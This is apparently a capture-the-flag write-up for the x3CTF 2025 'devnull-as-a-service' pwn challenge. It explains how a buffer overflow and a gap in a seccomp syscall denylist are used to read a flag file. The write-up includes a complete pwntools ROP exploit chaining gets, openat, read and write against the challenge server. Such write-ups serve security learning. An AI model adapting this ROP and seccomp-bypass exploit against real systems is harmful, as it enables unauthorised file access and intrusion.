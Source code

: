 ```yaml
---
title: devnull-as-a-service
description: |
  A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
  To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
  PS: You can find the flag at /home/ctf/flag.txt on the remote server.
categories: ["ctf", "x3CTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/x3ctf/devnull-as-a-service"
---
```


We have a simple buffer overflow, but protected by seccomp:

![](01.png)

We can use `seccomp-tools` to view the syscalls we are allowed to perform:

![](02.png)

We have a denylist of syscalls. However, some alternatives are not included. For example, we can call `openat` instead
of `open`. `read` and `write` are not blocked, so we can do a `openat`-`read`-`write` chain to get the flag.

The binary is statically linked, so we have plenty of ROP gadgets. 

We still need to read the flag name somewhere. The binary does not have PIE enabled, so we can choose any address in the
data section that does not interfere with the program execution and call `gets` on it. We can then use the address in the
`openat` syscall.

Final exploit code:

```py
from pwn import *

context.arch = "amd64"
context.terminal = ["ghostty", "-e"]

data_cave = 0x4af395

rop = ROP("./dev_null")
elf = ELF("./dev_null")

pop_rdx = 0x47d944

'''
io = gdb.debug("./dev_null", """
    b *dev_null + 52
    c
""")
'''
io = remote("20cbda3f-7e2e-4988-a683-5d14618adb42.x3c.tf", 31337, ssl=True)
io.clean()
io.sendline(flat(
    b"A" * 16,

    # gets(data_cave)
    p64(rop.rdi.address),
    p64(data_cave),
    p64(elf.sym.gets),

    # openat(AT_FDCWD, data_cave, 0) -> 3
    p64(rop.rdi.address), p64(-100 + 2 ** 64),
    p64(rop.rsi.address), p64(data_cave), p64(0),
    p64(pop_rdx), p64(0), p64(0), p64(0),
    p64(elf.sym.openat),

    # read(3, data_cave, 0x100)
    p64(rop.rdi.address), p64(3),
    p64(rop.rsi.address), p64(data_cave), p64(0),
    p64(pop_rdx), p64(0x100), p64(0), p64(0),
    p64(elf.sym.read),

    # write(1, data_cave, 0x100)
    p64(rop.rdi.address), p64(1),
    p64(rop.rsi.address), p64(data_cave), p64(0),
    p64(pop_rdx), p64(0x100), p64(0), p64(0),
    p64(elf.sym.write),
))

io.sendline(b"/home/ctf/flag.txt")

io.interactive()
```

